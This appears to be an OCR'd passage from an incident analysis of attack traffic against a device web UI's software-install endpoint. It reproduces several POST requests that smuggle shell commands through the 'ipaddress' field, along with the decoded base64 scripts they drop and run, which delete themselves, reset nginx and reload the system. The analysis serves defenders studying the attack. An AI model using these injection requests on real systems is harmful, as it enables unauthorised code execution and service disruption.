 location ~* % {
    add_header Content-Type text/html;
    add_header Cache-Control 'no-cache, no-store, must-revalidate';
    add_header Pragma no-cache;
    add_header Strict-Transport-Security "max-age=31536000; includeSubdomains";
    return 404;
}
################################

## then we see another POST request: 

POST /webui/rest/softwareMgmt/installAdd HTTP/1.1

{"filePath": "abc/aaa", "fileSystem": "", "ipaddress": "1:1:1:;python -m base64 -d <<< CnJtIC1mICQwCm5naW54IC1zIHJlbG9hZApzbGVlcCAxMApybSAtcmYgL3RtcC9jaGFzc2lzL2xvY2FsL3JwL2NoYXNmcy9wbWFuL3N3LW5naW54LXNlcnZpY2UKbWtkaXIgIC90bXAvY2hhc3Npcy9sb2NhbC9ycC9jaGFzZnMvcG1hbi9zdy1uZ2lueC1zZXJ2aWNlCnNsZWVwIDEwCndvcmtvbi5zaCBycCBraWxsIG5naW54CnNsZWVwIDMKd29ya29uLnNoIHJwIHJlc3RhcnQgbmdpbngKc2xlZXAgMTIwCnJlbG9hZC5zaCAgICAgICAgCg== > /tmp/pvp_wd;#", "mode": "tftp", "operation_type": "SMU"}

## the Base64 value translates to the following commands: 

rm -f $0
nginx -s reload
sleep 10
rm -rf /tmp/chassis/local/rp/chasfs/pman/sw-nginx-service
mkdir  /tmp/chassis/local/rp/chasfs/pman/sw-nginx-service
sleep 10
workon.sh rp kill nginx
sleep 3
workon.sh rp restart nginx
sleep 120
reload.sh   

## then we see: 

POST /webui/rest/softwareMgmt/installAdd HTTP/1.1

{"filePath": "abc/aaa", "fileSystem": "", "ipaddress": "1:1:1:;python -m base64 -d <<< CnJtIC1mICQwICAgICAgICAKc2ggL3RtcC9wdnBfd2QgJgo= > /tmp/pvp_wd_run;#", "mode": "tftp", "operation_type": "SMU"}

## the base64 value translates to the following commands: 

rm -f $0        
sh /tmp/pvp_wd &


## then we see: 

POST /webui/rest/softwareMgmt/installAdd HTTP/1.1

{"filePath": "abc/aaa", "fileSystem": "", "ipaddress": "1:1:1:;sh /tmp/pvp_wd_run;#", "mode": "tftp", "operation_type": "SMU"}
